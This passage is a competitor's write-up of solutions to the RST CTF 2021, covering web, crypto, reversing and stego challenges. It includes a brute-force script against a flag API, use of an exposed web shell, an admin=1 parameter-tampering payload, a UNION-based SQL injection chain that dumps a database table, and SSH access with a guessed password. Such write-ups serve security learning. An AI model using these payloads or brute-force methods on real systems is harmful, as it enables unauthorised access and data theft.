

Last weekend (17 - 18 April 2021) I participated in the RST CTF, organized by the Romanian Security Team. I managed to finish on the First Place with 20 out of 21 challenges solved. The competition lasted 48 hours and my final score was of 2407 points.
I have really enjoyed solving these challenges, as they brushed up on my skills from different areas, such as cryptography, steganography, networking, etc.
Table of contents:
- API
- Elevi
- Admin
- SMS-uri
- Onboarding
- Server
- Traficant
- RST
- Biletul criptat
- Strabunicul lui Cezar
- Asteroidul
- Steagul corupt
- Crackpass
- NoFlag
- Hecsagon
- Sigla
- Valuri
- Stegano II
- Animalul
- Poza
1. API (120p)
- Category: Web
- Author: Dragos
Avem un API mai ciudatel pentru a verifica daca flag-ul trimis este cel cautat. Poti descoperi care e flag-ul?
We have a strange API to check if the flag sent is the valid one. Can you discover the flag?
This challenge presents a simple web application. The first thing you see is an error:
Playing around with the GET parameters and using my intuition, I find that it accepts a parameter called flag and outputs a hash. Moreover, fuzzing the value of this flag, I noticed that I can get a different response for certain characters. Sending 0 for example gives the following output:
{"rezultat":"partial corect","flag_trimis_criptat":"cfcd208495d565ef66e7dff9f98764da"}The message above states that the result is partially correct. Fuzzing a little more I identified more numbers and characters that give this partially correct message. Finally, I understood what this API does - it takes my input and checks if it is part of the flag (like a substring).
I then tried to create a python script that brute forces all printable characters and assembles an alphabet which I can use to get the flag. Finally, I have luckily found the last letter of the flag - e - where no other character was accepted afterwards, so I made the script to search for the flag in reverse order.
import requests
import string
URL = 'http://vps-e78e5aab.vps.ovh.net/chall?flag='
def get_alphabet():
print("Identifying the alphabet...")
alphabet = string.printable
result = []
for item in alphabet:
r = requests.get(URL + item)
if 'partial corect' in r.text:
result.append(item)
return result
def get_flag(alphabet):
print("Getting the flag...")
flag = 'e'
while len(flag) < 64 + 5:
for item in alphabet:
r = requests.get(URL + item + flag)
if 'partial corect' in r.text:
flag += item
print(flag)
break
return flag
if __name__ == "__main__":
alphabet = get_alphabet()
print(alphabet)
flag = get_flag(alphabet)
print(flag)
The output of this script was the following:
┌──(znq㉿new-york)-[~/win/RST/API]
└─$ python3 brute.py
Identifying the alphabet...
['0', '2', '3', '4', '5', '6', '7', '8', '9', 'e', 'f', 'g', 'n', 'o', 'p', 'q', 'r', 's', 'E', 'F', 'G', 'N', 'O', 'P', 'Q', 'R', 'S', '{', '}']
Getting the flag...
}4qroor2739o537n62p08r98r0p92n604767pqrosq09203rpr728os434qqsrn48{gfeSo the flag is still encrypted somehow. It can be easily noticed that all characters from the flag above are at the end of the english alphabet, which suggests that if this was a SHA256 flag, rot13 was applied to it. Applying rot13 and reversing the string using CyberChef finally resulted in my flag.
Flag: RST{84aefdd434fb827ece30290dfbedc767406a29c0e89e80c26a735b9372ebbed4}
2. Elevi (120p)
- Category: Web
- Author: YKelyan
Un grup de elevi si cateva practici proaste. Ce se poate intampla?
A group of students and a few bad practices. What could happen?
This challenge presents a simple (pretty ugly) web application made by some students.

Simple navigation on some other pages from the main menu reveals a potential Local File Inclusion (LFI) vulnerability, as the pages were included as a GET parameter - ?view=about-us.html.
Another interesting thing was found by looking at the source code of the page, where a comment has been left over by one of the developers:
<!--Mihai, nu uita sa verifici fisierele css! (http://127.0.0.1/shell.php) -ANDRADA- -->It was a path to a critical file - which was still available in production: shell.php. This file allows anyone to run shell commands on the server.

Issuing the command cat shell.php, I could see the code of the page - which revealed another dangerous functionality:
if (isset($_GET['download'])) {
$file = $_GET['download'];
if (file_exists($file)) {
header('Content-Description: File Transfer');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment;
filename="'.basename($file).'"');
header('Expires: 0');
header('Cache-Control: must-revalidate');
header('Pragma: public');
header('Content-Length: ' . filesize($file));
readfile($file);
exit;
}With this functionality, I can also donwload any file from the server. However, it is not necessarily useful for our purpose.
Looking all over the server for interesting files, I could not find anything that contained the flag. However, I did find a readme file on the current directory listing:
Result of command execution:
total 32
drwxr-xr-x. 2 centos centos 133 Apr 16 22:34 .
drwxr-xr-x. 4 root root 33 Apr 16 20:46 ..
-rw-r--r--. 1 centos centos 661 Apr 16 20:51 about-us.html
-rw-r--r--. 1 centos centos 38 Apr 16 21:17 contact-us.html
-rw-r--r--. 1 centos centos 843 Apr 16 21:39 index.php
-rw-r--r--. 1 centos centos 427 Apr 16 20:52 media.html
-rw-r--r--. 1 centos centos 146 Apr 16 21:03 readme
-rw-r--r--. 1 centos centos 5226 Apr 16 20:52 shell.php
-rw-r--r--. 1 centos centos 518 Apr 16 21:09 style.cssGetting its content, there is a strange message inside and a long hex string:
Result of command execution:
What is this? Maybe you should check /etc/.....
201dc88daf95daf8a18ae57d0691d547ac3a5ce77d15620ec6b109eef9697917f7e18ada1d2c7620ab17d9b3e476197eGoing over to the /etc/ folder, I inspected the most used files, such as /etc/hostname, /etc/hosts/, etc. Fortunately, /etc/hosts had something interesting as well - two comments.
Result of command execution:
::1 localhost localhost.localdomain localhost6 localhost6.localdomain6
#key 7B7B526F6D616E69616E53656375726974795465616D7D7D
#nonce = key
127.0.0.1 localhost localhost.localdomain localhost4 localhost4.localdomain4
127.0.0.1 vps-97f3ceaa.vps.ovh.net vps-97f3ceaaThis got me to thinking it could be a keyed cipher, so I tried to decrypt the first string using AES in CBC mode with the key mentioned in the second file and the IV same as key. Bingo! CyberChef managed to decode the message:
Flag: RST{sacmxke0xakosoicd31jsgd01lsaly10san2}
3. Admin (168p)
- Category: Web
- Author: Nytro
Doar adminii au acces la flag!
Only admins have access to the flag!
The web application presents a simple login and register form. Creating an user account and then logging in unfortunately results in a message saying that we are not admins.
I started to look for interesting things, but there were no useful cookies, no useful information in the page source code, nothing. Then, I thought of fuzzing new parameters to the reuqest. I intercepted the register request in Burp and sent it to Repeater, where I added various attributes, then checked them by logging in. Fortunately, the correct one was pretty straight-forward - I added admin=1 and got the flag. The payload:
username=user5&password=123&admin=1®ister=InregistrareFlag: RST{8d288f354069331fc1473f373a012d49a3f203003f03dd4d2b2404153a147c2f}
4. SMS-uri (190p)
- Category: Web
- Author: Dragos
Am descoperit un server de SMS-uri, dar aparent e blocat. Poti sa intri sa vezi despre ce e vorba?
I discovered an SMS server, but apparently it's blocked. Could you enter and see what is this about?
This challenge was released later in the competition. The staff also mentioned that it could contain possible hints for other challenges with no solves, and as it can be seen further down this document, I actually used some of the hints.
Going back to the challenge at hand, I navigated to the URL provided and I was welcomed with an error message:
Seeing that the GET method is not allowed, I thought of using other methods. Unfortunately, none of the well known ones worked (e.g. POST, PUT, DELETE, etc). However, using a random word instead of a valid method name actually returned something. For this purpose, I used Burp to intercept the request and change the request method to FUZZ.
The result was the following JSON object:
{
"autor":{
"id":453,
"nume_rst":"Alex"
},
"mesaje":[
{
"data":"04\/17 8:05 AM",
"culoare":"#6d6573",
"mesaj":"Tocmai am citit despre aplicatia asta noua si mi-am facut un cont. Sper ca imi cripteaza datele."
},
{
"data":"04\/17 8:15 AM",
"culoare":"#616a65",
"mesaj":"Am intzeles acum intrun final ce inseamna sha256 si cum se crypteaza datele."
},
{
"data":"04\/17 9:30 AM",
"culoare":"#647562",
"mesaj":"Mama zice ca stau prea mult pe calculator. Zice sa ies afara, sa vedem daca pot sa scriu ceva cu telefonul meu busit."
},
{
"data":"04\/17 10:01 AM",
"culoare":"#696f61",
"mesaj":"o zi obiSnuitA de weekend, nimic sPecial. soarele e pe cer, nu sTim daca va mai ningE, vremea e HAZLIE."
},
{
"data":"04\/17 10:15 AM",
"culoare":"#73653f",
"mesaj":"Aplicatie de cacao, nu cripteaza nimic, oricine poate sa-mi vada mesajele. Imi sterg contul."
}
]
}Further inspection of the contents came up empty. However, among some random things I tried, I thought of concatenating all color codes (which are written in hex) and decode them. To my surprise, it actually decoded to something readable:
>>> bytes.fromhex("6d6573616a65647562696f6173653f")
b'mesajedubioase?'I used SHA256 to hash this message and add the RST{} tags around it and it worked!
Flag: RST{68d99e223b2f2e0c4fe53785f2755710e9b841e5cbf3e35be563fa637aee24b6}
5. Onboarding (200p)
- Category: Web
- Author: Nytro
Aplicatia asta permite un onboarding mai usor pentru toti utilizatorii, dar ascunde si ceva in plus. Poti gasi ce?
This application enables an easier onboarding process for all users, but it also hides something. Can you find out what?
As one of the most interesting challenges, this one involved an out-of-band SQL injection. The web page presents two forms - login and register.
After some fuzzing of parameter values with different payloads (LFI, XSS, etc.), I noticed that anything besides the RO value for the country field resulted in an error. Moreover, sending a payload of RO' didn't trigger the error - meaning that the country field might be vulnerable to SQL injection.
However, in order to see if the payload was successful or not, I had to use the login form.
Moving over to Burp, I confirmed the vulnerability by adding an ORDER BY clause and still getting the normal output instead of an error. Next, in order to confirm the number of columns returned by the query, I used the column index as the order criteria and managed to find that there are 3 columns - using ORDER BY 4 returned an error.
With everything working good so far, I proceeded to get the database schema in order to find potential locations of the flag. Below are the queries used and their results:
RO' ORDER BY 1 -- '
> Tara: RO
RO' UNION SELECT 1,table_name,3 FROM information_schema.tables ORDER BY 1 DESC LIMIT 1 -- '
> Tara: ALL_PLUGINS
RO' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE TABLE_TYPE = 'BASE TABLE' ORDER BY 2 ASC LIMIT 1,1 -- '
> Tara: flags
RO' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE TABLE_NAME = 'flags' ORDER BY 2 ASC LIMIT 1,1 -- '
> Tara: id
RO' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE TABLE_NAME = 'flags' LIMIT 2,1 -- '
> Tara: flag
RO' UNION SELECT 1,flag,3 FROM flags LIMIT 1,1 -- '
> Tara: RST{f415d1ee20062ff522e55c44dce38134a18da2bf4bbbbceacadd0cbdedaf7cfe}An important aspect of the above injection is the use of the LIMIT 1 and LIMIT 1,1 clauses. This is needed because the UNION SELECT query might return multiple rows and the application will show an error if that happens. With the LIMIT clause, I can control how many rows are returned and which ones (in LIMIT 1,1 - the first 1 is the index of the row).
Flag: RST{f415d1ee20062ff522e55c44dce38134a18da2bf4bbbbceacadd0cbdedaf7cfe}
6. Server (200p)
- Category: Networking
- Author: Nytro
Unele probleme se pot rezolva fie prin inteligenta, fie prin forta.
Some problems can either be solved through intelligence or brute-force.
This challenge is part of the networking category, so it made sense to scan the network for anything interesting using nmap:
┌──(znq㉿new-york)-[~/win/RST]
└─$ nmap -p- vps-d8fa07dd.vps.ovh.net
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 18:29 EEST
Nmap scan report for vps-d8fa07dd.vps.ovh.net (135.125.239.31)
Host is up, received syn-ack (0.056s latency).
Other addresses for vps-d8fa07dd.vps.ovh.net (not scanned): 2001:41d0:701:1100::413e
Scanned at 2021-04-18 18:29:56 EEST for 147s
Not shown: 65524 closed ports
Reason: 65524 conn-refused
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack
25/tcp filtered smtp no-response
80/tcp open http syn-ack
111/tcp open rpcbind syn-ack
135/tcp filtered msrpc no-response
136/tcp filtered profile no-response
137/tcp filtered netbios-ns no-response
138/tcp filtered netbios-dgm no-response
139/tcp filtered netbios-ssn no-response
445/tcp filtered microsoft-ds no-response
3306/tcp open mysql syn-ack
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 147.82 secondsNext few hours, I tried to bruteforce different services, as I had no other information about the target. I focused on the MySQL and SSH services, but I got nothing. The other ports were a dead end as well. I could not find anything else useful, so I asked the author for a hint, and he told me to look again at the challenge description. I tried to brute force the usernames already, so I switched to the intelligent approach.
My target was a server, as the name of the challenge suggested, so it could make sense that the user was called admin. Next, I tried to guess its password, and after a few tries from some lists of common passwords, which all failed as previously mentioned, I noticed that all these lists had mostly lowercase characters. Then, I tried again with the first password that came into my mind that contained both lowercase and uppercase characters, a number and a special character. And luckily, it matched! I could log on using SSH with the user admin and password Password1!.
┌──(znq㉿new-york)-[~/win/RST]
└─$ ssh admin@vps-d8fa07dd.vps.ovh.net
admin@vps-d8fa07dd.vps.ovh.net's password:
Activate the web console with: systemctl enable --now cockpit.socket
Last failed login: Sun Apr 18 17:57:08 UTC 2021 from 188.25.91.200 on ssh:notty
There were 6 failed login attempts since the last successful login.
Last login: Sun Apr 18 17:42:35 2021 from 86.120.225.222
[admin@vps-d8fa07dd ~]$ ls
flag.txt
[admin@vps-d8fa07dd ~]$ cat flag.txt
RST{becda3dcb371b918fd3ee6852bd68e047bd9c610b8cf7d968a7583c519afd874}
[admin@vps-d8fa07dd ~]$Flag: RST{becda3dcb371b918fd3ee6852bd68e047bd9c610b8cf7d968a7583c519afd874}
7. Traficant (50p)
- Category: Forensics
- Author: Nytro
Se pare ca forum RST a fost spart si utilizatorii sunt infectati, trebuie sa gasim sursa!
It looks like the RST forum has been hacked and users are now infected, we have to find the source!
The challenge provides a simple, plain-text, network traffic capture. The first thing I usually do when faced with such challenges is to open the network capture file with WireShark and look for interesting things in well-known protocols. In this case, the interesting part is the HTTP traffic. WireShark provides an useful option of extracting all HTTP Objects with a few clicks:
File -> Export Objects -> HTTP -> Save allGoing through all the files extracted (there is a lot of junk), I noticed a text file called stg.txt with the following content:
Da, un steag se poate gasi si in traficul de pe retea.
UlNUezE5ZjkyZWNmYmE0N2IwYTNmNzhhMjNkNzM1YTJhYzBjNzhlYWM3NDdmMGQ4NTM2NDMzOTVmYTFiMDM3YzZkZjR9This was clearly a base64 encoded string, so decoding it revealed the flag:
┌──(znq㉿new-york)-[~]
└─$ echo "UlNUezE5ZjkyZWNmYmE0N2IwYTNmNzhhMjNkNzM1YTJhYzBjNzhlYWM3NDdmMGQ4NTM2NDMzOTVmYTFiMDM3YzZkZjR9" | base64 -d
RST{19f92ecfba47b0a3f78a23d735a2ac0c78eac747f0d853643395fa1b037c6df4}An alternative way of finding the flag directly from WireShark is to filter the HTTP traffic and inspect the requests for anything out of the ordinary. For instance, the request for stg.txt could also be seen like this and then using the Right Click -> Follow -> HTTP Stream options, you can get the contents of the file.
Flag: RST{19f92ecfba47b0a3f78a23d735a2ac0c78eac747f0d853643395fa1b037c6df4}
8. RST (200p)
- Category: Networking
- Author: Nytro
Se pare ca forum RST a fost spart si utilizatorii sunt infectati, trebuie sa gasim sursa!
It seems that the RST forum has been borken into and users are now infected, we have to find the source!
I spent some time on this challenge as well. After some itme of investigating every corner of the forum, I looked at the description again and noticed that there are some hints here as well. First, "we have to find the source" might lead to the source code, while the "users are infected" part suggested something in the front-end code, something which users would be affected by.
With this in mind, I checked the source code of the main forum page and every JavaScript file included there. However, only later I thought of using Hard Refresh (Ctrl + Shift + R) option of the browser, as the content was cached and I couldn't see what what right in front of me.
The flag was actually at the bottom of the following script:
https://rstforums.com/forum/uploads/javascript_global/root_library.js?v=61423563571616972063// Hacked! UlNUezYyNDAwN2JkMjEyZTgzNTZiZGQ0ZDVlMzRkYmYxNmViNTc5Y2ZlYzBhZDI2NDk0MjliNDBlNjcwNjMxNzY2MjF9┌──(znq㉿new-york)-[~/win/CA-HTB/web_daas]
└─$ echo "UlNUezYyNDAwN2JkMjEyZTgzNTZiZGQ0ZDVlMzRkYmYxNmViNTc5Y2ZlYzBhZDI2NDk0MjliNDBlNjcwNjMxNzY2MjF9" | base64 -d
RST{624007bd212e8356bdd4d5e34dbf16eb579cfec0ad2649429b40e67063176621}A fun fact here is that, while being stuck with the cached version of the scripts, I found something interesting that the authors were not aware of, deep inside one of the scripts:
if (window.atob && window.console) {
console.log(window.atob("ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgCiAgICAgd293ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIAogICAgICAgICAgICAgICAgICAgICAgICBzdWNoIGZvcnVtICAgICAKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgCiAgICAgICAgaG93IGFqYXggICAgICAgICAgICAgICAgICAgICAgIAogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAKICB2ZXJ5IGNvbW11bml0eSAgICAgICAgICAgICAgICAgICAgICAgCiAgICAgICAgICAgICAgICAgICAgICAgICAgICBtdWNoIG1lbWJlcgogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgCg=="));
}Which, decoded from base64, results in:
wow
such forum
how ajax
very community
much member
Unfortunately, I got no extra points for the effort :)
Flag: RST{624007bd212e8356bdd4d5e34dbf16eb579cfec0ad2649429b40e67063176621}
9. Biletul Criptat (50p)
- Category: Crypto
- Author: YKelyan
Totul a inceput cand eram mic, atunci cand tatal meu mi-a oferit un bilet cu un text criptat. Acesta mi-a spus sa il pastrez in siguranta si sa-l decriptez atunci cand o sa implinesc 13 ani. Timpul a trecut iar eu am uitat de bilet. Acum, la varsta de 32 de ani, dupa ce tata a murit din cauza unei paralizii cerebrale m-am decis sa ma mut in casa parinteasca. Carand diferite obiecte din podul casei am gasit biletul de mult uitat intr-un sertar dintr-un birou pe care obisnuiam sa-mi fac temele cand eram elev. Ti-am lasat mai jos textul, crezi ca poti sa ma ajuti?
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>++++++++++.>>----.++++++++.-------.>---------------.--------.+++++.<----------------..>-----------.+++.<.>++++++++++++++.<++++++++++++++++.>---------.---.++++++++++++.<++++++++++.>++.--.<------.++++++.<++++++++++++++++++++++.>-----------.>-------.<+++++.+++.<.>---.>----.<<++.>>-.+++.--.+++++++++++++.-.<+.+++.++.<---.>>.<++.---------.>--------.++++++.<<+.--.>--.>--.<+++.>----.<<++.>>+++++++.<.+++++++.----------.>--------.--.<--.>+++++++++++.<++++++.-----.<++.>+.>-.<++++++++++.>--.<<.>+++.>-.<<+++++++...
It has all began when I was a little boy, when my father gave me a note with a cipher text. He told me to keep it safe and decrypt it when I will be 13 years old. The time has passed and I forgot about the note. Now, at the age of 32, after my dad has died because of a cerebral palsy, I decided to move back to my parents house. Moving different objects from the attic of the house, I found the forgotten note in a drawer in a desk where I used to do my homework as a student. I left the text of the note betlow, do you think you can help me decipher it?
The message above seems to be brainfuck, an esoteric programming language. I have previously came across such challenges, so I recognized it pretty fast. I used an online brainfuck interpreter (found here). It resulted in the following output:
BJCUMR33GJ3XCOLXMZXGM4BQGJ4GM6LOMZYHKM3YOFQW42DUGQ4XGNDPNBYHC6DXNV6QU===First thing I thought of was to decode this using base64, but it was just gibberish. Next, I tried base32, and there it was, the flag, but encoded with rot13. Final flag was obtained after decoding both encodings using CyberChef.
Flag: RST{2jd9jsasc02kslasch3kdnaug49f4bucdkjz}
10. Strabunicul lui Cezar (50p)
- Category: Crypto
- Author: Dragos
Uvorxrgzir, uozt-fo vhgv "zgyzhs", wzi xirkgzg. Evar rmhgifxgrfmrov wrm Hgvtzml RR kvmgif nzr nfogv wvgzorr.
I have no information on the strange string above, so I ran it by a cipher identifier (found here). The conclusion was that the cipher could be Atbash.
Next, I ran it through an Atbash decoder (found here) and got the following message:
Felicitari, flag-ul este "atbash", dar criptat. Vezi instructiunile din Stegano II pentru mai multe detalii.
Translated to:
Congratulations, the flag is "atbash", but encrypted. See instructions from Stegano II for more details.
The final flag was SHA256(atbash).
Flag: RST{241f143d128e232349e2bf212ec0b123faff7b85944bbe1e55722b35c9207c13}
11. Asteroidul (88p)
- Category: Crypto
- Author: Dragos
FtattfuntI eage0olieI lruC4rdtg iilr5meia cfeYiafnn ilspntiSo.
The strange text above can be understood if every "word" is put on a separate line and it is read by columns instead of lines.
F t a t t f u n t I
e a g e 0 o l i e I
l r u C 4 r d t g
i i l r 5 m e i a
c f e Y i a f n n
i l s p n t i S o.The message is: Felicitari flagul este CrYpt045 in formatul definit in Stegano II. It translates to: Congratulations the flag is CrYpt045 in the format defined in Stegano II. So the final flag will be SHA256(CrYpt045).
Flag: RST{ecb8d3023523638c5da28ed7961e9529b2ce8a48d72cd4ced3aa9ddaed814cd9}
12. Steagul corupt (151p)
- Category: Crypto
- Author: Dragos
Steagul pentru challenge a fost stocat intr-o baza de date care s-a corupt. Ultimele detalii pe care le stim sunt ca flag-ul e un SHA-256 al unui cuvant din limba romana care a fost scris fara diacritice, postfixat de un număr de trei cifre.
Poti gasi care este flag-ul?
R_T{_96395e1_556c4___05e996f___dc9b7eabeb9330____c8fa6____6449___aa4}
The flag for this challenge has been stored in a database which became corrupt. The last things we know are that the flag is a SHA-256 of a romanian word, written without diacritics, postfixed with a 3-digit number.
Can you find the flag?
The challenge implies a brute force to find the correct hash. First things first, I need a romanian wordlist without diacritics to use in my script. For this purpose, I found this one: https://github.com/spell-checker/dictionary-ro/blob/master/ro.dia. Second, for each of these words, I need to bruteforce every possible number between 100 and 999. I came up with the following python script:
import hashlib
words = open('ro.dia', 'r').read().split('\n')
words.reverse()
#R_T{_96395e1_556c4___05e996f___dc9b7eabeb9330____c8fa6____6449___aa4}
parts = ['96395e1', '556c4', '05e996f', 'dc9b7eabeb9330', 'c8fa6', '6449', 'aa4']
print("Searching...")
for word in words:
for nr in range(100, 1000):
w = word + str(nr)
sha256 = hashlib.sha256()
sha256.update(w.encode())
hash = sha256.hexdigest()
print(hash + ' -> ' + w + ' \r', end = '')
if parts[2] in hash and parts[3] in hash:
print(hash + ' -> ' + w + ' (MATCH)')
print("")It runs for a while, but in the end it returns a match for sugubat240, whose SHA256 has to be surrounded by the RST{} tags to become the flag:
┌──(znq㉿new-york)-[~/win/RST/steagul-corupt]
└─$ python3 brute.py
Searching...
f96395e11556c417405e996ff05dc9b7eabeb9330c37cc8fa6df496449244aa4 -> sugubat240 (MATCH)
70ee0a76c29f4e2dabf148910ddab53d4941c7a120115ae197ee666dbb6a441a -> subscriptia-i694
Notable here is that I used a reversed list of words, as I have run both versions of the script (in normal order and reversed) simultaneously to cover ground faster. The reversed version found a match quicker, as the words was closer to the end of the dictionary.
Flag: RST{f96395e11556c417405e996ff05dc9b7eabeb9330c37cc8fa6df496449244aa4}
13. Crackpass (88p)
- Category: Reversing
- Author: Nytro
Un binar pe care doar flag-ul corect il poate duce la return 0.
A binary program that only the correct flag can have it return 0.
This challenge presented a binary file. First thing I did was to open it with IDA Pro and decompile it. The following code is the main function:
Next, I looked over the rest of the code that seemed to be part of the program, identifying a function called __static_initialization_and_destruction_0:
Here, you can see a flag template reading PLM{1111111111111111111111111111111111111111111111111111111111111111}. Going back to the main function to better understand what the program does, I noticed there is a xor operation byte by byte on this fake flag and a set of bytes identified by enc. Following the reference to enc, I get the following bytes:

db 2, 1Fh, 19h, 0, 8, 2, 6, 2, 3, 2 dup(57h), 4, 54h, 0
db 9, 7, 9, 2, 6, 5, 1, 4, 9, 3, 54h, 2 dup(5), 2, 54h
db 1, 2 dup(52h), 5, 57h, 7, 57h, 9, 3, 1, 0, 57h, 53h
db 8, 2 dup(54h), 53h, 57h, 0, 3, 1, 5, 4, 2, 6, 54h, 53h
db 1, 4, 52h, 4, 2, 52h, 50h, 4, 53h, 54h, 8, 55h, 4 dup(0)I extracted these bytes (and converted them to decimal) and created a small python script to xor them with the fake flag found above, in the hope that the original flag will show up:
fake_flag = list("PLM{1111111111111111111111111111111111111111111111111111111111111111}")
xor_bytes = [2, 31, 25, 0, 8, 2, 6, 2, 3, 87, 87, 4, 84, 0, 9, 7, 9, 2, 6, 5, 1, 4, 9, 3, 84, 5, 5, 2, 84, 1, 82, 82, 5, 87, 7, 87, 9, 3, 1, 0, 87, 83, 8, 84, 84, 83, 87, 0, 3, 1, 5, 4, 2, 6, 84, 83, 1, 4, 82, 4, 2, 82, 80, 4, 83, 84, 8, 85, 0]
result = list(chr(ord(a) ^ b) for a, b in zip(fake_flag, xor_bytes))
result = ''.join(result)
print(result)And fortunately, it did:
┌──(znq㉿new-york)-[~/win/RST/crackpass]
└─$ python3 xor.py
RST{93732ff5e18683740582e443e0cc4f6f8201fb9eebf1204537eb05c53ca5be9d}Flag: RST{93732ff5e18683740582e443e0cc4f6f8201fb9eebf1204537eb05c53ca5be9d}
14. NoFlag (158p)
- Category: Reversing
- Author: Nytro
Un flag care este si care nu este in acelasi timp intr-un binar.
A flag that is both present and not present at the same time in the binary program.
The second reversing challenge involved a windows executable (exe). I opened it again with IDA Pro and looked around for anything interesting. I noticed a strange string that looked vaguely like a flag inside function sub_1400011c0:
Looking further down this function, I noticed some complicated operations executed in a loop, which could suggest flag alteration / decryption. Following those, I set a breakpoint on the next instruction (v8 = sub140001560(std::cout)), in order to see what happened inside the loop. I did so using x64dbg, the Windows alternative of GDB, so I could run the program.
However, before doing so, I had to find that line in assembly. The address in IDA was 0x1400012D7, but in x64dbg was not, as addresses started from 0x7FF6211A1000. I did some calculations and got the offset of 0x2D7 (in IDA addresses started from 0x140001000, so 0x1400012D7 - 0x140001000 = 2D7). Using the same logic in x64dbg, I reached the desired address and noticed something familiar in the name of the function called (password.7FF6211A1560 has the same offset as sub140001560).
Finally, adding the breakpoint at address 0x7FF6211A12D7:
And running the program until the breakpoint is reached:
I could see the flag in plain text just lying around.
Flag: RST{76ea621cafffa1930bd5c7276f803da5af9cd9a57bdffaf00f3858cb9703149c}
15. Hecsagon (50p)
- Category: Stegano
- Author: YKelyan
Crezi ca poti gasi forma geometrica?
Do you think you can find the geometric shape?
This challenge was pretty straight-forward. Running the strings command on the image reveals the flag.
┌──(znq㉿new-york)-[~/win/RST/hecsagon]
└─$ strings vacanta_la_oache.jpg -n 12
;CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|?scpamGWv[x
RST{1jd90dsnuaicnavdx0vidj91szmxsnvbedas}Flag: RST{1jd90dsnuaicnavdx0vidj91szmxsnvbedas}
16. Sigla (50p)
- Category: Stegano
- Author: Dragos
Intr-o lume plina de masonerie, teorii ale conspiratiei si Bill Gates, totul are o insemnatate ascunsa, pana si logo-ul RST atasat.
Poti sa gasesti mesajul din spatele logo-ului?
In a world full of masonery, conspiracy theories and Bill Gates, everything has a hidden significance, even the RST logo attached.
Can you find the message behind the logo?
This challenge was identifcal to the one above, as can be seen below:
┌──(znq㉿new-york)-[~/win/RST/sigla]
└─$ strings rst_logo.png -n 12
OiCCPPhotoshop ICC profile
YYYJJJRzz:a[4p
Ghh(\]]9@DVv
2<""""""RYFF
fHHH`xDDDDDD
X<'"""""""$$$
l;HOOGxx8<<<
vqnY"%(S@wpp`PD
_~yH^+??_W_}5
+%%EIIIJJJRrr
re%$$(>>^111
RST{a2e6d2358601328bfc06c9c9a42a4f644ed6303fd1b2d696eb4d438c5c1a7144}Flag: RST{a2e6d2358601328bfc06c9c9a42a4f644ed6303fd1b2d696eb4d438c5c1a7144}
17. Valuri (50p)
- Category: Stegano
- Author: YKelyan
In timp ce vorbeam cu prietenul meu la telefon am auzit niste sunete ciudate. Cred ca cineva imi intercepteaza convorbirile. Am reusit sa inregistrez sunetele insa nu inteleg nimic, parca sunt niste valuri.... Crezi ca poti sa ma ajuti?
Format flag: RST{flag(md5)}
While I was talking to my friend on the phone, I heard some strange noises. I think someone might be intercepting my conversations. I managed to record these sounds, but I cannot make any sense from them, it's like there are some waves... Do you think you can help me?
Flag format: RST{flag(md5)}
I was given an audio file, which I promptly opened in Audacity. Applying the spectrogram on this file reveals the following hidden message:
Following the instructions of the challenge, I got the MD5 hash of this message and added the RST{} tags around it - and there it was the flag.
┌──(znq㉿new-york)-[~/win/RST/sigla]
└─$ echo -n "F52LYG4Z" | md5sum
ec627195bc62796ae3471b7a1c28d059 -Flag: RST{ec627195bc62796ae3471b7a1c28d059}
18. Stegano II (104p)
- Category: Stegano
- Author: Dragos
Nytro tocmai si-a luat casa cu piscina si a facut poza atasata. E doar o poza normala sau ascunde vreun mesaj?
Notă: Flag-ul e format din cuvantul din imagine, hash-uit în SHA-256, prefixat cu "RST{" si postfixat cu "}". Spre exemplu, pentru cuvantul "piscina", flag-ul este RST{73b637a645b28be74ff051fa4f1d2cc0a2cab31271537ae943250bfd68f40f7c}.
Nytro has just bought a house with a pool and took the picture attached. Is it just a normal picture, or does it hide a message?
Note: The flag is the word from the image, hashed with SHA-256, prefixed with RST{ and postfixed with }. For example, for the word "piscina" the actual flag is RST{73b637a645b28be74ff051fa4f1d2cc0a2cab31271537ae943250bfd68f40f7c}.
For this challenge, I used the basic tools for image steganography, looking for any hidden messages. The one that helped me see a fade message was stegsolve.jar, however, the string is not clear at all and changing rapidly through planes helpes me guess the word:
The word seen there is apapapa, so using SHA256(apapapa) resulted in the flag.
Flag: RST{aea56887a4f67f2b7937a7965fa679bfae9358695ebbd7f28470c9ba436fd93c}
19. Animalul (120p)
- Category: Misc
- Author: Dragos
Stire de ultima ora: dupa ultimele aparitii ale ursilor in Poiana Brasov, un nou animal a fost vazut de locanici, un animal pe jumatate zebra, pe jumatate cal. Atasat ai o schita a animalului. Poti sa descoperi ce animal este defapt?
